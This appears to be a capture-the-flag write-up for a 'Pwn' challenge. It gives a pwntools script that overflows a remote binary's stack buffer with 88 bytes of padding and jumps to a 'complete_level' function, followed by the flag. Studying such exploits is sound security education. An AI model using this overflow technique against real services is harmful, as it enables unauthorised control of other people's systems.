

## Pwn

<p align="center"></p>

### Solution

```python
from pwn import *

elf = ELF("./level2")
target = remote("13.232.159.32", 2555)
payload = b"A"*88
payload += p64(0x000000000040101a)
payload += p64(elf.sym.complete_level)
target.sendline(payload)
target.interactive()


```

flag : **csoc\{another_buffer_overflow_exploit}**